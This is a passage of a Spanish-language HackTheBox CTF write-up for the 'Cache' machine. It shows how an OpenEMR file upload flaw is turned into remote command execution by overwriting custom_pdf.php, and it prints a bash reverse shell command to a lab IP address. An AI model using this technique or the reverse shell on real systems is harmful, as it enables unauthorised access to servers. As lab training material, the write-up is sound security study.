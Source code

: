 Listo, revisando el mismo `pdf` que contiene un increíble recuento de vulnerabilidades podemos ver varias maneras de obtener ejecución de comandos, entre ellas una que ya tiene un [exploit](https://www.exploit-db.com/exploits/45161) para solo ejecutar el comando y ya estaríamos dentro. Pero algo me freno de usar ese script y es que al ejecutarlo modifica la configuración global y al ser una máquina que no solo nosotros usamos, probablemente la dañe y sea necesario resetear la máquina.

Si no queremos que modifique las configuraciones globales debemos cambiar el payload, pero no entendí que debía cambiar... Así que opte por buscar otra vulnerabilidad (tenemos varias) que podamos usar.

Encontramos un **file upload vulnerability** que podemos usar para montar un archivo y modificar su contenido para ejecutar comandos en el sistema. 

![pagefileupvuln](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/pagefileupvuln.png)

![pagemanagesitefiles](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/pagemanagesitefiles.png)

Nos indica que va a guardar los archivos en `/public_html/sites/default/`, pero si validamos, esa ruta no existe. Buscando por internet encontramos un PoC que explota esta vulnerabilidad y también nos indica la ruta donde se guardarán los archivos, **`/sites/default/`**

> Remote Code Execution OpenEMR: https://labs.bishopfox.com/advisories/openemr-5-0-16-remote-code-execution-cross-site-scripting#Arbitrary

![pageindexofsitesdef](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/pageindexofsitesdefault.png)

Si seguimos el PoC, interceptamos la petición y modificamos su contenido, logramos subir el archivo... Intente cambiarle el nombre pero al parecer solo recibe **custom_pdf.php**, si revisamos de nuevo la página vemos en el apartado **Edit File**, que entre esos esta por default el archivo que queremos subir, así que debe hacer una validación en la que simplemente se puedan editar los archivos de esa lista. (no logre tomar screen a la lista, pero al menos vemos que sin haber subido aún el archivo (queda en ti creerme :P) aparece por default)

![pagemanagesitepdf](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/pagemanagesitepdf.png)

Bueno, mucho texto y nada que explotamos esto e.e

![burpuploadfile](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/burpuploadfile.png)

En el contenido simplemente recibimos una petición get y lo que sea, será ejecutado en el sistema. Mandemos una Reverse Shell a ver... Ya saben, es necesario que pasemos a URL encode nuestra petición, ya que probablemente el navegador no haga nada si le pasamos por ejemplo:

```php
xmd=?bash -c 'bash -i >& /dev/tcp/10.10.15.21/4433 0>&1'
```

No hará nada, pensaremos que está mal y no, solo debemos pasarla a URL encode y quedaría como en la imagen (:

![bashcurlrevshell](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/bashcurlrevshell.png)

La Shell que tenemos no es completamente interactiva, por lo tanto debemos darle un tratamiento a la tty, algunos links donde se explica

> Convertir a una shell completamente interactiva: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
